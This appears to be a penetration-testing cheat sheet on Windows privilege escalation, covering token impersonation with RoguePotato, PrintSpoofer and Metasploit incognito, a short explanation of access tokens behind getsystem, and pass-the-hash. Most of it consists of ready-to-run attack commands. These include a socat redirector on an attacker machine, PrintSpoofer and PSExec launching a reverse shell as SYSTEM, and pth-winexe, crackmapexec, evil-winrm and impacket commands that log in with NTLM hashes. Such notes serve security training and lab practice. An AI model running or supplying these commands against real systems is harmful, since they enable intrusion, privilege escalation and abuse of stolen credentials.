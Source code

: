 ### Token Impersonation


**[RoguePotato](https://github.com/antonioCoco/RoguePotato)**
1. See [Rogue Potato](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#roguePotato)
2. Set up a socat redirector on the attacker machine, forwarding its port 135 to port 9999 on Windows `sudo socat tcp-listen:135,reuseaddr,fork tcp:<Windows IP>:9999`
3. Execute the PoC: `.\RoguePotato.exe -r YOUR_IP -e "command" -l 9999`
4. Check [Juicy Potato](https://github.com/ohpe/juicy-potato), it's an improved version

**More Potatoes**
- See: [Potatoes - Windows Privilege Escalation](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

**[PrintSpoofer](https://github.com/itm4n/PrintSpoofer)**
- Usage 1
  1. Copy `PSExec64.exe` and the `PrintSpoofer.exe` exploit executable over the Windows machine
  2. Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account: `C:\PrivEsc\PSExec64.exe /accepteula -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`
  3. Run the PrintSpoofer exploit to trigger a reverse shell running with SYSTEM privileges: `C:\PrivEsc\PrintSpoofer.exe –i -c "C:\PrivEsc\reverse.exe"`
- Usage 2
  1. Copy the `PrintSpoofer.exe` exploit executable over the Windows machine
  2. `.\PrintSpoofer64.exe -i -c powershell.exe`

**metasploit**
- msfconsole, meterpreter > load incognito
  - `list_tokens -u`
  - `impersonate_token domain\\username`
  - `rev2self <# to reverte to initial user, usefull when the initial user is the admin #>`

### getsystem
- **Access Tokens**: When a user first logs in, this object is created and linked to their active session. A copy of the user's principal access token is added to the new process when they launch it.
- **Impersonation Access Token**: When a process or thread momentarily needs to run with another user's security context, this object is created.
- **Token Duplication**: Windows permits processes and threads to use multiple access tokens. This allows for the duplication of an impersonation access token into a main access token. If we have the ability to inject into a process, we can leverage this feature to copy the process's access token and launch a new process with the same rights.
- **Documentation**: [Meterpreter getsystem | Metasploit Documentation](https://docs.rapid7.com/metasploit/meterpreter-getsystem/)

### Pass The Hash
- You can pass NTLM hashes, not NTLMv2
- `pth-winexe -U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd`
- `crackmapexec smb 10.0.3.0/24 -u fcastle -H eb7126ae2c91ed5637hdn3hegve38928398 --local-auth`
- `crackmapexec winrm 192.168.174.175 -u usernames.txt -H hashes.txt --local-auth`
- `evil-winrm -i 192.168.174.175 -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808`
- `impacket-psexec -hashes 00000000000000000000000000000000:<NTLM> <USERNAME>:@<IP>`
- `impacket-wmiexec -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175`
- with sam hashes, remember to use the correct pair
- https://labs.withsecure.com/publications/pth-attacks-against-ntlm-authenticated-web-applications

